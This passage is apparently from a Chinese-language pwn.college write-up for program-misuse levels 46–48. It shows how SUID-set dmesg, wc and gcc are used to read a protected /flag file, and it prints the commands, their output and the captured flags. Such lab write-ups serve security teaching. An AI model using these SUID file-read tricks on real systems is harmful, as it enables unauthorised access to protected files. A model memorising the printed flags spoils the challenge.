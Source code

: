 ```
hacker@program-misuse-level-46:~$ dmesg -F /flag
[    0.000000] pwn.college{Q8U4rT5_srr0BlLq1ZlDOJx0yDe.0FO4EDL2QjMyMzW}
hacker@program-misuse-level-46:~$
```
都是看手册

## level47 Just straight up wasn't designed to let you read files!

```
hacker@program-misuse-level-47:~$ sh file.sh
Welcome to ./babysuid_level47!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/wc.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level47) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/wc!
```
`wc`一般用于统计行号、字数什么的。
```
hacker@program-misuse-level-47:~$ wc --files0-from=/flag
wc: 'pwn.college{shy1dFSZ2LmpPnQ-OAl_RoDeLxh.0VO4EDL2QjMyMzW}'$'\n': No such file or directory
hacker@program-misuse-level-47:~$
```
从手册来看就上面这个不是统计数量的，因此就它了！

## level48 Just straight up wasn't designed to let you read files!

```
hacker@program-misuse-level-48:~$ sh file.sh
Welcome to ./babysuid_level48!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/gcc.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level48) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/gcc!
```
有点儿意思，gcc都出来了
```
hacker@program-misuse-level-48:~$ gcc -x c -E /flag
# 1 "/flag"
# 1 "<built-in>"
# 1 "<command-line>"
# 31 "<command-line>"
# 1 "/usr/include/stdc-predef.h" 1 3 4
# 32 "<command-line>" 2
# 1 "/flag"
pwn.college{UgtHTJRU8raItcJF89PS-hM7Rh9.0FM5EDL2QjMyMzW}
hacker@program-misuse-level-48:~$
```
它这个必须要指定语言，不然不能运行
